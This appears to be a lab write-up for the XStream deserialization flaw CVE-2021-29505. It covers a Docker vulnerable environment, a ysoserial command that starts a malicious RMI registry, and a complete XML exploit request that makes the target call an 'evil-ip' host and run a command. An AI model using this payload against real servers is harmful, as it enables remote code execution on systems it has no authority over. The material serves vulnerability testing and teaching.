

XStream Deserialization Remote Command Execution (CVE-2021-29505)¶
XStream is a simple library to serialize objects to XML and back again.
XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.16 and earlier, blocklists are incomplete and attackers could use sun.rmi.registry.RegistryImpl_Stub to make an RMI request and execute arbitrary commands finally.
Reference links.
Vulnerable Environment¶
Start a Springboot + XStream 1.4.16 server.
docker compose up -d
Once the environment is started, you can send the following request to http://your-ip:8080 to test if the server has started successfully

POC¶
First of all, you have to start a malicious RMI Registry on evil server using the JRMPListener of ysoserial.
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
This RMI Registry, upon receiving the request, returns a malicious serialized object constructed with CommonsCollections6 gadget.
Then, send the XML POC of CVE-2021-29505, replace evil-ip with address of evil RMI Registry.
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169
<java.util.PriorityQueue serialization='custom'>
<unserializable-parents/>
<java.util.PriorityQueue>
<default>
<size>2</size>
</default>
<int>3</int>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>12345</type>
<value class='com.sun.org.apache.xpath.internal.objects.XString'>
<m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>12345</type>
<value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
<message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
<parsedMessage>true</parsedMessage>
<soapVersion>SOAP_11</soapVersion>
<bodyParts/>
<sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
<attachmentsInitialized>false</attachmentsInitialized>
<nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
<aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
<candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
<names>
<string>aa</string>
<string>aa</string>
</names>
<ctx>
<environment/>
<registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
<java.rmi.server.RemoteObject>
<string>UnicastRef</string>
<string>evil-ip</string>
<int>1099</int>
<long>0</long>
<int>0</int>
<long>0</long>
<short>0</short>
<boolean>false</boolean>
</java.rmi.server.RemoteObject>
</registry>
<host>evil-ip</host>
<port>1099</port>
</ctx>
</candidates>
</aliases>
</nullIter>
</sm>
</message>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
</java.util.PriorityQueue>
</java.util.PriorityQueue>
The malicious RMI registry receives the RMI request successfully.

Enter into the XStream container, touch /tmp/success has been successfully executed:

Significantly, POC from official website is wrong, you must not use it.